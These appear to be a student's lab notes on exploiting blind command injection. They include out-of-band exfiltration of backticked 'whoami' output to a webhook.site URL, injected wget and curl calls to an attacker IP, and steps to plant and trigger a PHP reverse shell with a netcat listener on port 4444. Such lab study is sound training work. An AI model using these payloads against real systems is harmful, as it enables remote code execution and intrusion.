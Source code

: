 - we only in true/false situation (blind)
- so we out of band technique (meaning we get information in other place)
`https://webhook.site/bc623622-67a9-467d-952c-1cfd4bbdff53?`whoami`
- whoami is in back-tick

---
- another way :
`python -m http.server 8080`
`https://tcm-sec.com \n wget 10.10.100.148:8080/test`

- reverse shell require ; (may it is filtered in the website)
- upload a shell and trigger it .. How?
u need to update the file(`cd tmp , cp /usr/share/webshells/laudanum/php/php-reverse-shell.php .,nano php-reverse-shell.php,mv php-reverse-shell.php rev.php`) to your ip and port 4444(`nc -nlvp 4444`) and run this `https://tcm-sec.com && curl 10.0.2.15:8080/rev.php > /var/www/html/rev.php` the in browser `localhost/rev.php`